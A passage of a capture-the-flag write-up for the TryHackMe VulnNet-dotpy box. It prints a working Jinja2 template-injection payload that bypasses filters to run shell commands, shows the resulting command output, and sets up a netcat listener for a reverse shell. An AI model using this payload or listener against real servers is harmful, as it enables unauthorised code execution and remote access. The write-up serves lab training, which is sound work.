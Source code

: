 **After I finished this python script, I found a bypass that bypasses most common filters in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---filter-bypass):**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227224459.png)

**Let's try that:**
```py
payload = """{{request|attr('application')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('__import__')('os')|attr('popen')('id')|attr('read')()}}"""
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# python3 exploit.py
[+] Payload result:
uid=1001(web) gid=1001(web) groups=1001(web)
```

**We finally can execute code!**

**Let's get a Python reverse shell!**

> Note: The payload needs to be hex encoded.

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/VulnNet-dotpy/images/Pasted%20image%2020221227234454.png)

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/VulnNet-dotpy]
└─# nc -lnvp 443        
listening on [any] 443 ...
```
